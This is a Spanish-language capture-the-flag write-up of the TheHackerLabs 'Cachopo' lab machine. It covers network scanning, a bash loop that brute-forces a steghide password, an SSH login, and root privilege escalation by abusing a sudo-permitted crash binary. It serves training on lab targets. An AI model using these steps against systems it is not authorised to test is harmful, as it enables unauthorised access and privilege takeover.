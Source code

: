 ```yaml
---
title: "TheHackerLabs - Avanzado : [Cachopo]"
date: 2024-08-12 13:35:00 +0200
categories: [CTF, Writeups, TheHackerLabs, Linux, Avanzado]
description: "Explora el desafío CTF 'Cachopo', diseñado para usuarios avanzados en un entorno Linux."
tags: [CTF, Writeups, TheHackerLabs, Linux, Avanzado]
image: /img/posts/CTF/cachopo/cachopo.png
---
```


# Writeup: TheHackerLabs - Cachopo

## Introducción

**Cachopo** es un CTF avanzado creado por TheHackerLabs, diseñado para desafiar las habilidades de los usuarios experimentados en Linux. El objetivo es identificar servicios vulnerables, explotarlos y capturar la flag final. 

🌐 [**Web oficial del CTF: TheHackersLabs - Cachopo**](https://thehackerslabs.com/cachopo/)

---

## 1. Descubrimiento de la Máquina Objetivo

Iniciamos el desafío identificando la dirección IP de la máquina objetivo en nuestra red local utilizando `arp-scan`:

```bash
# arp-scan -I ens36 --localnet
172.18.0.134  00:0c:29:f3:5c:ae    VMware, Inc.
```

La IP de la máquina objetivo es **172.18.0.134**.

---

## 2. Enumeración de Servicios

Realizamos un escaneo completo de puertos utilizando `nmap`:

```bash
# nmap -p- --min-rate 2000 -sS -Pn -oN allports 172.18.0.134
```

**Resultados principales:**
- **22/tcp:** OpenSSH 9.2p1 (Debian)
- **80/tcp:** Apache httpd 2.4.61

El análisis del puerto 80 reveló una redirección a `http://cachopo.thl/`. Configuramos `/etc/hosts` para incluir el dominio:

```bash
# echo "172.18.0.134 cachopo.thl" | tee -a /etc/hosts
```

---

## 3. Análisis del Servidor Web y Datos Ocultos

El sitio web contenía una imagen sospechosa. Usamos **Steghide** para analizarla, pero estaba protegida con contraseña. Realizamos un ataque de fuerza bruta con la lista `rockyou.txt`:

**Script simplificado para fuerza bruta:**
```bash
#!/bin/bash
while read password; do
    steghide --extract -sf cachopo.jpg -p "$password" 2>/dev/null && echo "Contraseña: $password" && break
done < /usr/share/wordlists/rockyou.txt
```

**Resultado:**
```bash
Contraseña: doggies
```

Extrajimos un archivo que nos redirigió a un directorio oculto con más datos sensibles.

---

## 4. Escalación de Privilegios

Nos conectamos al servidor utilizando SSH con las credenciales encontradas y analizamos los permisos del usuario:

```bash
# ssh carlos@172.18.0.134
# sudo -l
User carlos may run the following commands on Cachopo:
    (ALL) NOPASSWD: /usr/bin/crash
```

El binario `/usr/bin/crash` se explotó para escalar privilegios siguiendo las instrucciones de [GTFOBins](https://gtfobins.github.io/gtfobins/crash/).

---

## 5. Ejecución Visual de la Escalación

A continuación, se muestra cómo obtuvimos acceso a root utilizando el binario vulnerable:

```bash
carlos@Cachopo:~$ sudo /usr/bin/crash
crash> !/bin/bash
root@Cachopo:/home/carlos# whoami
root
root@Cachopo:/home/carlos# cat /root/flag.txt
FLAG{access_granted}
```

## Reflexión Final

El CTF **Cachopo** destaca la importancia de una buena enumeración y el análisis de servicios. Además, pone en práctica habilidades como fuerza bruta y escalación de privilegios. Es un reto ideal para usuarios avanzados que buscan explorar vulnerabilidades reales.

¡Gracias por leer este writeup! Si tienes preguntas, no dudes en contactarme.  
Un saludo,  
Óscar
